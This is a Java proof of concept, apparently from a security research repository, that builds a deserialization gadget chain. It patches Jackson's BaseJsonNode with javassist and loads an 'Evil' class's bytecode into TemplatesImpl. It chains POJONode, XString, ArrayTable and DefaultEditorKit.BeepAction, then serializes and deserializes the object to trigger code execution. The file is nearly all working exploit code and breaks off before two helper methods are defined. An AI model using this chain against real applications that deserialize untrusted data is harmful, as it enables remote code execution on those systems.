```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;

import javassist.*;
import sun.reflect.ReflectionFactory;

import javax.swing.event.SwingPropertyChangeSupport;
import javax.swing.text.DefaultEditorKit;
import java.io.*;
import java.lang.reflect.*;

public class jackson_AbstractAction{
    static {
        try {
            // javassist 修改 BaseJsonNode
            ClassPool classPool = ClassPool.getDefault();
            CtClass ctClass = classPool.getCtClass("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
            writeReplace.setBody("return $0;");
            ctClass.writeFile();
            ctClass.toClass();
        } catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main( String[] args ) throws Exception {
        byte[] bytes = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "a");
        setFieldValue(templatesImpl, "_tfactory", null);

        POJONode jsonNodes = new POJONode(templatesImpl);
        XString xString = new XString("a");

        DefaultEditorKit.BeepAction action = new DefaultEditorKit.BeepAction();
        SwingPropertyChangeSupport swingPropertyChangeSupport = new SwingPropertyChangeSupport("");

        Object arraytable = createWithoutConstructor("javax.swing.ArrayTable");
        setFieldValue(arraytable,"table",new Object[]{"1",xString,"2",jsonNodes});
        setFieldValue(action,"arrayTable",arraytable);
        setFieldValue(action,"changeSupport",swingPropertyChangeSupport);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(action);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
```